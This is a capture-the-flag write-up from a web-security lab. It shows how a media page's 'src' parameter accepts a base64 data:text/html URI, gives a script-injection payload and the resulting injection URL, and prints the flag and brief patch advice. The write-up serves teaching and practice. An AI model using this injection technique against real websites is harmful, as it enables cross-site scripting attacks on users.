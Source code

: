 # 11_Protect_Your_Media_types

Unsecure media redirection setted in the frontend.
http://192.168.99.100)

## How to see it

Go on the page mentionned before.
Inspect element, it appears that a GET request is done for the prism image. We can see in the request that text/html is an
accepted format. We can deduct than we can inject some HTML there. Then we will just modify the request.
Don't forget to put your url in base 64.
```bash
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
http://192.168.99.100/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
## How to abuse of it

You can insert HTML code since the text/html is accepted

## How to patch it

Just use the type that you want to accept. Check the headers of the file you're using. ID of images pointing to DB.
